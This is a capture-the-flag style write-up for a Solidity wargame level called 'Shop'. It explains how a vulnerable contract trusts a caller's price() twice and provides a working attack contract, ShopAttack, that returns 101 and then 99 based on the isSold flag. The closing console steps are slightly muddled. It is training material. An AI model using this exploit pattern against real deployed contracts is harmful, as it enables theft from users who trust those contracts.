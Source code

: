 # Shop

Сan you get the item from the shop for less than the price asked?
Things that might help:
* `Shop` expects to be used from a Buyer
* Understanding how `gas()` options works

```javascript
pragma solidity 0.4.24;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price.gas(3000)() >= price && !isSold) {
      isSold = true;
      price = _buyer.price.gas(3000)();
    }
  }
}
```

This instance assume that player should deploy a `buyer` contract which has `price()` function that can be call by instance's `buy()`.

From level description, we know that we should money less than `100` to buy something, however, `_buyer.price.gas(3000)() >= price` restrict it our first feedback should bigger than `100` and `_buyer.price.gas(3000)()` restrict our second feedback call by `price = _buyer.price.gas(3000)();` cannot change any `storage` variable.

So, we need something else which will change between first call `price()` and the second one to trigger the change of return value.

`isSold` might be the perfect solution which is `storage variable` change by `Buy()` itself which out of restriction of `_buyer.price.gas(3000)()` but still can be use as a flag.

```javascript
pragma solidity 0.4.24;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price.gas(3000)() >= price && !isSold) {
      isSold = true;
      price = _buyer.price.gas(3000)();
    }
  }
}

contract ShopAttack {

  function price() external view returns (uint) {
    return Shop(msg.sender).isSold() ? 99 : 101;
  }

  function attack(Shop _victim) external {
    Shop(_victim).buy();
  }
}
```

Deploy the `ShopAttack` contract and call `buy()` of instance.

```javascript
await contract.price()
//Trigger Attack
await contract.price()
```

Check if price be set under than `100`.
